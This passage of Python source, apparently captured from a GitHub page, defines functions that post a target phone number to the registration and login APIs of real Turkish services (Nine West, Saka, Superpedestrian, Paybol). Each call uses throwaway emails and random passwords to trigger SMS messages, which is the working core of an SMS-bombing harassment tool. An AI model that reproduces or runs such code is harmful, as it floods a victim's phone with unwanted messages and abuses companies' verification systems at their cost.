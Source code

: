         if r.status_code == 200:
            return True, "Paybol"
        else:
            return False, "Paybol"
    except:
        return False, "Paybol"

def ninewest(number):
    try:
        url = "https://www.ninewest.com.tr/webservice/v1/register.json"
        payload = {
            "alertMeWithEMail" : False,
            "alertMeWithSms" : False,
            "dataPermission" : True,
            "email" : "asdafwqww44wt4t4@gmail.com",
            "genderId" : random.randint(0,3),
            "hash" : "5488b0f6de",
            "inviteCode" : "",
            "password" : f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase + string.digits, k=16))}",
            "phoneNumber" : f"({str(number)[0:3]}) {str(number)[3:6]} {str(number)[6:8]} {str(number)[8:10]}",
            "registerContract" : True,
            "registerMethod" : "mail",
            "version" : "3"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        
        if r1 == True:
            return True, "Nine West"
        else:
            return False, "Nine West"
    except:
        return False, "Nine West"

def saka(number):
    try:
        url = "https://mobilcrm2.saka.com.tr/api/customer/login"
        payload = {
            "gsm" : f"0{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["status"]
        if r1 == 1:
            return True, "Saka"
        else:
            return False, "Saka"
    except:
        return False, "Saka"

def superpedestrian(number):
    try:
        url = "https://consumer-auth.linkyour.city/consumer_auth/register"
        payload = {
            "phone_number" : f"+90{str(number)[0:3]} {str(number)[3:6]} {str(number)[6:10]}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["detail"]
        if r1 == "Ok":
            return True, "Superpedestrian"
        else:
            return False, "Superpedestrian"
    except:
        return False, "Superpedestrian"
